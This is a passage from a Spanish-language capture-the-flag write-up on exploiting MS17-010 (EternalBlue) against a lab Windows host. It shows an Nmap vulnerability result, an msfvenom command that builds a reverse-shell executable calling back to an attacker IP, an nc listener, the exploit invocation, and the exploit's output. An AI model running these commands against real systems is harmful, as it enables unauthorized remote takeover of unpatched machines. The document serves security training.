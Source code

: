 ```console
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 2.87 seconds
```
La máquina es claramente vulnerable, el próximo paso es conseguir el exploit que se va a usar:

> **``git clone https://github.com/helviojunior/MS17-010.git``**

Una vez clonado el repositorio hay que usar `Msfvenom` para crear el shellcode de una shell reversa y crear un binario .exe:


> **``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f exe > eternalblue.exe``**

Después se pone a `nc` a escuchar:

> **``nc -lnvp 4444``**

Y se corre el siguiente comando:

> **``./send_and_execute.py 10.10.10.4 eternalblue.exe 445``**

```console
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x81f11c18
SESSION: 0xe1051190
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1bd8c30
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1bd8cd0
overwriting token UserAndGroups
Sending file L7CZMF.exe...
Opening SVCManager on 10.10.10.4.....
Creating service kEfn.....
Starting service kEfn.....
The NETBIOS connection with the remote host timed out.
Removing service kEfn.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```
---

